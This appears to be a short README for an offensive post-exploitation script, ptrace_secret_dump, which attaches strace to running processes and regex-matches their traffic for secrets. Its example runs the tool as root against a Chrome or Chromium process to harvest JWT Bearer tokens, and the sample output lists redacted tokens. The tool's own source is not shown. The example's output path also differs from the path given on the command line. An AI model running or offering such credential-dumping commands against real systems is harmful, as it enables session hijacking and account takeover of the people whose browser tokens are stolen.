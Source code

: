 # Scripts

## ptrace_secret_dump

### Description
This script will use `strace` to attach to running processes and search for the strings matching the
`regex` provided. It is useful in post-exploitation for dumping tokens and credentials after you
have privileged access (or when `sys.yama.ptrace == 0`).

### Example

Dumping JWT tokens from a running `chrom{e,ium}` process.

```
root@host:~# ./ptrace_secret_dump 'Bearer [a-zA-Z0-9-_+/.]*' /tmp/jwt_tokens chro
[+] - Looking for regex 'Bearer [a-zA-Z0-9-_+/.]*' and outputing to /tmp/out
[+] - Press Ctrl-C to terminate execution.
[+] - Starting cleanup...
[+] - Uniq token values:
Bearer <REDACTED_TOKEN>
Bearer <REDACTED_TOKEN>
[+] - Killing ptrace processes.

```

